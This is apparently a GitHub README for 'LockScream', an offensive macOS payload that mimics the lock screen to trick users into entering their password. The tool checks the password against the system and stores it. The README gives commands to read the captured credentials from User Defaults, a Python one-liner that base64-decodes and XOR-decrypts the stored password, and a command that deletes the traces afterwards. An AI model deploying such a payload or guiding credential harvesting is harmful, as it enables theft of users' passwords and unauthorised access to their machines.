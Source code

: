 <p align="center" ><img src="https://gist.github.com/n0ncetonic/bf506d5f6c979c9445095f30de6d618f/raw/915629750edb584884025ea846c9b4a32653c636/LockScream_512.png"></p>

# LockScream
macOS Client-Side Phishing lock screen payload.

Emulates the macOS lock screen by dynamically determining a user's wallpaper, username, and user icon. Makes use of Core Services and Collaboration Services to verify entered credentials before allowing the program to close.

[[ TODO : Write a better Readme ]] 

## Where are the creds ?!
At the moment LockScream uses `User Defaults` to store credentials entered by the user.  
When compiling LockScream the bundle identifier can be changed from `com.blacksun.research.labs.LockScream` to any bundle identifier desired. The bundle identifier should be noted as it is important for retrieving user credentials later. 

For the sake of example, the default value of `com.blacksun.research.labs.LockScream` will be used and commands should be modified appropriately should you use a different bundle identifier.

```
$ defaults read com.blacksun.research.labs.LockScream
{
  crTkgKENXxuWDk3 = "MQs7Bx4lPRciFAMd2BAoCU0EGcl1ZZgY="
}
```

The command above returns a key-value pair in which a randomly generated string is used as the key and the value is a base64 encoded string.  
The secret to converting this key-value pair into a user's plain-text password is to first base64 decode the value to get a data blob. The key is also conveniently used as the key used to XOR the password and can be used to turn the data blob back into a plain-text password ready for use.

A simple PoC oneliner for decrypting the stored password is provided below with no guarantee of compatibility with any version of macOS outside of 10.14

```
$ enc="Base64 String From defaults read Command";key="Key from defaults read Command"; python -c "from itertools import izip,cycle;import base64;data = base64.decodestring(\"$enc\");xored = ''.join(chr(ord(x) ^ ord(y)) for (x,y) in izip(data,cycle(\"$key\")));print xored"
```

If you want to clean up after retrieving the plain-text credential issue a  `defaults delete` command as follows

```
defaults delete com.blacksun.research.labs.LockScream
```


n0ncetonic. Blacksun Research Labs 2019
